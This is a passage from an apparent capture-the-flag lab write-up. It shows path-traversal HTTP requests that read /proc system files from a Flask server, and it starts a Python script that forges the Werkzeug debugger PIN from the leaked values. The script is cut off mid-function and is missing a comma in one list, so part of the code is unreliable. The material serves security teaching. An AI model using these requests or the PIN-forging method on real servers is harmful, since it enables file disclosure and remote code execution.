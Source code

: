 I converted it to decimal so I could use it as the value for `node` in the script.

```python
>>> print(0x0242ac110009)
2485377892361
```

Next, I needed the value for the machine ID. This was the concatenation of values from two files. 


```http
GET /uploads/..//proc/sys/kernel/random/boot_id HTTP/1.1
Host: target.htb
```

```
7de8344f-479d-402f-aeae-23e4f0c9ab1e
```
And

```http
GET /uploads/..//proc/self/cgroup HTTP/1.1
Host: target.htb
```

```
12:freezer:/docker/c8ca454d258582d3e11e469d822a538f8a0aa4a96bcfd461cb3591ada9600164
11:cpuset:/docker/c8ca454d258582d3e11e469d822a538f8a0aa4a96bcfd461cb3591ada9600164
```

With this data, I had my script ready to generate the PIN. 

```python
import hashlib
from itertools import chain


node = '2485377892361'

def get_machine_id():
    linux = b""
    # GET /uploads/..//proc/sys/kernel/random/boot_id HTTP/1.1
    linux = b"7de8344f-479d-402f-aeae-23e4f0c9ab1e" 
    # GET /uploads/..//proc/self/cgroup HTTP/1.1
    linux += b"c8ca454d258582d3e11e469d822a538f8a0aa4a96bcfd461cb3591ada9600164"
    return linux

def get_pin_and_cookie_name():
    pin = ""
    rv = None
    num = None

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        'root',
        'flask.app',
        'Flask'
        '/usr/local/lib/python3.10/site-packages/flask/app.py'
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    
    private_bits = [node, get_machine_id()]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
```
